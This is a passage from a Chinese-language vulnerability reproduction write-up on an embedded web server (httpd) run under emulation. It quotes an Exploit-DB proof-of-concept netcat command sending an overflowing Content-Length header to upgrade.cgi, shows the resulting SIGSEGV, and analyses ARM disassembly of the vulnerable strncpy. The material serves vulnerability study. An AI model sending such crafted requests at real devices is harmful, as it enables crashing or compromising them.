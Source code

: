 gethostbyname函数是用来获取主机名称的，上面一段的意思应该是通过比较虚拟机和宿主机的名称是否相同，不相同则输出错误。可以用hostname命令来查看主机名称。

hostname <名称>进行暂时修改主机名称。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6oqg3n8kuj20sp029gm2.jpg>)

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6oqgdk0etj20sr02gmxa.jpg>)

修改完主机名称之后再次输入httpd，终于可以运行。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6oqgkmb41j20t305swh1.jpg>)

### **漏洞复现**

根据https://www.exploit-db.com/exploits/44001给出的poc进行测试。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6oqgrsw16j20sw04otaq.jpg>)

出现这个崩溃

	/ # req->iCount++= 1
	[03/Sep/2019:07:42:32 +0000] caught SIGSEGV, dumping core in /tmp

从poc来看echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXXnrnrn" | nc -v 10.10.10.2 80

应该是content-length长度过长导致溢出。在ida中找到这个content-length的位置。

![image.png](<https://ws1.sinaimg.cn/large/7fb67c86ly1g6oqh0sfe9j20qh0av42g.jpg>)

	.text:00018504 loc_18504 ; CODE XREF: sub_17F80+1B8↑j
	.text:00018504 LDR R0, [SP,#0x50+haystack] ; haystack
	.text:00018508 LDR R1, =aContentLength_0 ; "Content-Length"
	.text:0001850C BL strstr
	.text:00018510 MOV R1, #0xA ; c
	.text:00018514 MOV R7, R0
	.text:00018518 BL strchr
	.text:0001851C MOV R1, #0x3A ; c
	.text:00018520 MOV R6, R0
	.text:00018524 MOV R0, R7 ; s
	.text:00018528 BL strchr
	.text:0001852C ADD R1, R0, #1 ; src
	.text:00018530 RSB R2, R1, R6
	.text:00018534 ADD R0, SP, #0x50+dest ; dest
	.text:00018538 BL strncpy
	.text:0001853C B loc_1813C

这段先是调用了strstr函数判断=aContentLength_0 是否为haystack的子集，如果是则返回子集开始的首地址作为R0。然后后面两个strchr寻找子集中0xA(“n”)和0x3A(“:”)的位置。最后调用strncpy复制，复制的长度为R6-R1（RSB命令是逆向减法指令，用于把操作数2减去操作数1）。这里的R6和R1其实都是可控的，只要让他们两个的长度超过栈空间的长度就会导致溢出。

	.text:00017F80 sub_17F80 ; CODE XREF: sub_19D7C+220↓p
	.text:00017F80
	.text:00017F80 var_50 = -0x50
	.text:00017F80 var_4C = -0x4C
	.text:00017F80 haystack = -0x44
	.text:00017F80 var_40 = -0x40
	.text:00017F80 var_3C = -0x3C
	.text:00017F80 dest = -0x38
	.text:00017F80 var_34 = -0x34
	.text:00017F80 var_30 = -0x30
	.text:00017F80 var_2C = -0x2C
	.text:00017F80
	.text:00017F80 ADD R3, R0, #0x3540
	.text:00017F84 STMFD SP!, {R4-R11,LR}
	.text:00017F88 ADD R3, R3, #0x3A
